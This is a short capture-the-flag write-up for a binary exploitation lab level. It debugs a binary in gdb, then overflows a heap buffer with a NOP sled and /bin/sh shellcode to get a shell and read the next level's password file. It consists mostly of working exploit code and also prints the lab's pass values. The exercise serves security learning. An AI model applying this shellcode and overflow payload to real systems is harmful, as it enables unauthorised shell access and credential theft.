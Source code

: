 # Level 9
*pass : c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a*

```
$ scp -P 4242 level9@192.168.56.108:level9 binary/
```
0x6c = 108

shellcode : 
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
```
(gdb) disas main
...
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
  ...
(gdb) 
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) run test
(gdb) x/x $eax
0x804a00c
```
buffer address : 0x804a00c\
address buffer + 4 : 0x804a010\
108 - 25 - 4 = 79

```
$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x90" * 79 +  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x0c\xa0\x04\x08"')
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
